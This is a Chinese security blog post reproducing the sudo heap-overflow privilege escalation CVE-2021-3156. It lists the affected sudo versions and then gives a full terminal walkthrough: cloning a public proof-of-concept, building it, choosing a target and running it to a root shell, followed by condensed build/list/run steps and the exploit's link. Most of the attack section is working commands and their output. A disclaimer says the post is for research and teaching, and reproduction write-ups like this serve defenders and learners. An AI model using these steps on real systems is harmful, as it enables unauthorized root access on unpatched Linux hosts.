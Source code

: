> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/nyG97PLTFK0KQrIHD0vzNQ)

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcjiaQKjaqc8mNetXjLhOkdDFsTYgZ8VAXCQygL03nicXWL1KrS59O1aXLrUnzia2682cdnP4ZV58icTA/640?wx_fmt=png)

Linux sudo 权限提升漏洞（CVE-2021-3156）复现

一、漏洞简介

当 sudo 通过 - s 或 - i 命令行选项在 shell 模式下运行命令时，它将在命令参数中使用反斜杠转义特殊字符。但使用 - s 或 -i 标志运行 sudoedit 时，实际上并未进行转义，从而可能导致缓冲区溢出。只要存在 sudoers 文件（通常是 /etc/sudoers），攻击者就可以使用本地普通用户利用 sudo 获得系统 root 权限。

二、影响版本

Sudo 1.8.2 - 1.8.31p2

Sudo 1.9.0 - 1.9.5p1

不受影响版本

Sudo =>1.9.5p2

三、漏洞复现

执行获取 root 权限：  

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcjiaQKjaqc8mNetXjLhOkdDWoJibdtkkk9D1RyibqjBFVeicUt1sUvMV31OTJhicXHBgb0HahWIaE6ddw/640?wx_fmt=png)  

```
具体操作过程：
ubuntu@VM-0-5-ubuntu:~$ git clone https://github.91chifun.workers.dev//https://github.com/blasty/CVE-2021-3156.git
Cloning into 'CVE-2021-3156'...
warning: redirecting to https://github.com.cnpmjs.org/blasty/CVE-2021-3156.git/
remote: Enumerating objects: 11, done.
remote: Counting objects: 100% (11/11), done.
remote: Compressing objects: 100% (9/9), done.
remote: Total 11 (delta 2), reused 11 (delta 2), pack-reused 0
Unpacking objects: 100% (11/11), done.
ubuntu@VM-0-5-ubuntu:~$ cd C
Cerberus/           CVE-2020-13942/     CVE-2020-14882_ALL/ CVE-2020-8193/      CVE-2021-3156/      
ubuntu@VM-0-5-ubuntu:~$ cd CVE-2021-3156/
ubuntu@VM-0-5-ubuntu:~/CVE-2021-3156$ make
rm -rf libnss_X
mkdir libnss_X
gcc -o sudo-hax-me-a-sandwich hax.c
gcc -fPIC -shared -o 'libnss_X/P0P_SH3LLZ_ .so.2' lib.c
ubuntu@VM-0-5-ubuntu:~/CVE-2021-3156$ ./sudo-hax-me-a-sandwich 

** CVE-2021-3156 PoC by blasty <peter@haxx.in>

  usage: ./sudo-hax-me-a-sandwich <target>

  available targets:
  ------------------------------------------------------------
    0) Ubuntu 20.04.1 (Focal Fossa) - sudo 1.8.31, libc-2.31
    1) Debian 10.0 (Buster) - sudo 1.8.27, libc-2.28
  ------------------------------------------------------------

ubuntu@VM-0-5-ubuntu:~/CVE-2021-3156$ sudo -V
Sudo version 1.8.21p2
Sudoers policy plugin version 1.8.21p2
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.21p2
ubuntu@VM-0-5-ubuntu:~/CVE-2021-3156$ ./sudo-hax-me-a-sandwich 0

** CVE-2021-3156 PoC by blasty <peter@haxx.in>

using target: 'Ubuntu 20.04.1 (Focal Fossa) - sudo 1.8.31, libc-2.31'
** pray for your rootshell.. **
[+] bl1ng bl1ng! We got it!
# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),114(sambashare),500(ubuntu)
#
```

exp 地址：

```
https://github.com/blasty/CVE-2021-3156
```

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcjiaQKjaqc8mNetXjLhOkdDjP1Psq5U44ulRibRgS8u8lV7AFlMaLic2uUeQE4WXLEiaBtKibPMR4mq9Q/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcjiaQKjaqc8mNetXjLhOkdDCbHL7R4LqVZwzdVhRvxDhlf3JpvlSwRze4HDQ6uyJ8SS7ia9m4WQm0Q/640?wx_fmt=png)

操作步骤：

```
build:

$ make
list targets:

$ ./sudo-hax-me-a-sandwich
run:

$ ./sudo-hax-me-a-sandwich <target_number>
```

参考：

https://github.com/blasty/CVE-2021-3156

https://blog.csdn.net/Vdieoo/article/details/113247603

免责声明：本站提供安全工具、程序 (方法) 可能带有攻击性，仅供安全研究与教学之用，风险自负!

转载声明：著作权归作者所有。商业转载请联系作者获得授权，非商业转载请注明出处。

订阅查看更多复现文章、学习笔记

thelostworld

安全路上，与你并肩前行！！！！

![](https://mmbiz.qpic.cn/mmbiz_jpg/uljkOgZGRjeUdNIfB9qQKpwD7fiaNJ6JdXjenGicKJg8tqrSjxK5iaFtCVM8TKIUtr7BoePtkHDicUSsYzuicZHt9icw/640?wx_fmt=jpeg)

个人知乎：https://www.zhihu.com/people/fu-wei-43-69/columns

个人简书：https://www.jianshu.com/u/bf0e38a8d400

个人 CSDN：https://blog.csdn.net/qq_37602797/category_10169006.html

个人博客园：https://www.cnblogs.com/thelostworld/

FREEBUF 主页：https://www.freebuf.com/author/thelostworld?type=article

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcW6VR2xoE3js2J4uFMbFUKgglmlkCgua98XibptoPLesmlclJyJYpwmWIDIViaJWux8zOPFn01sONw/640?wx_fmt=png)

欢迎添加本公众号作者微信交流，添加时备注一下 “公众号”  

![](https://mmbiz.qpic.cn/mmbiz_png/uljkOgZGRjcSQn373grjydSAvWcmAgI3ibf9GUyuOCzpVJBq6z1Z60vzBjlEWLAu4gD9Lk4S57BcEiaGOibJfoXicQ/640?wx_fmt=png)